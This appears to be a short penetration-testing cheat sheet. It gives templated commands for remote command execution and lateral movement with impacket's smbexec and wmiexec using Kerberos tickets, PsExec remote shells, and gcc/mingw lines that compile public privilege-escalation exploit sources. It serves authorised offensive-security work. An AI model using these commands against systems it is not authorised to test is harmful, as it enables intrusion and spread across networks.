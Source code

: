 # smbexec.py
- service: smb
- tactics: lateral_movement
- suites: impacket

## Execute remote commands with any of the following by using the TGT
- `python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass`

---

# wmiexec.py
- service: wmi
- tactics: lateral_movement
- suites: impacket

## Execute remote commands with any of the following by using the TGT
- `python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass`

---

# psexec.exe
- service: smb
- tactics: lateral_movement
- suites: pstools

## run psexec
- `.\PsExec.exe -accepteula \\<remote_hostname> cmd`
- `PsExec64.exe \\remote_hostname> -u <username> -p <password> shell64.exe`

---

# gcc
- service: all
- tactics: weaponization

## cross compile for 32bit (m32) and all linux flavors (gnu, sysv)
- `apt-get install libc6-dev-i386`
- `gcc -m32 -Wall -Wl,--hash-style=both 9545.c -o exploit`

## cross compile for 32Bit windows (on 64bit linux)
- `i686-w64-mingw32-gcc -o ms11-046.exe ms11-046.c -lws2_32`
